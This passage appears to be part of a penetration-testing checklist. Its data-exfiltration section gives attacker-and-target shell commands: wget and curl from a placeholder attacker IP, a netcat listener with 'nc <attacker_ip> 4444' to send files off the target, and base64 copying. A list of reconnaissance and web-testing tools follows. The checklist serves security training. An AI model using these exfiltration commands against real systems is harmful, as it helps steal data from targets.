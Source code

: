   ```bash
  ```

### Data Exfiltration

#### File Transfer Methods
- [ ] **HTTP Server** (Python):
  ```bash
  # On attacker machine:
  python3 -m http.server 80
  
  # On target:
  wget http://<attacker_ip>/file
  curl http://<attacker_ip>/file -o file
  ```
- [ ] **Netcat File Transfer**:
  ```bash
  # Receiving (attacker):
  nc -nvlp 4444 > received_file
  
  # Sending (target):
  nc <attacker_ip> 4444 < file_to_send
  ```
- [ ] **Base64 Encoding**:
  ```bash
  base64 file.txt
  # Copy output and decode on attacker machine
  echo "<base64_string>" | base64 -d > file.txt
  ```

---

## 🛠️ Advanced Toolset & Techniques

### Essential Tools (Expanded)

#### Reconnaissance Tools
- **Nmap**: Network discovery and security auditing
- **Masscan**: High-speed port scanner
- **Amass**: Attack surface mapping
- **Subfinder**: Subdomain discovery
- **Httpx**: HTTP toolkit
- **Nuclei**: Vulnerability scanner

#### Web Application Testing
- **Burp Suite**: Web vulnerability scanner
- **OWASP ZAP**: Web application security scanner
- **Gobuster**: Directory/file brute-forcer
- **FFuF**: Fast web fuzzer
- **SQLMap**: SQL injection exploitation
- **Nikto**: Web server scanner
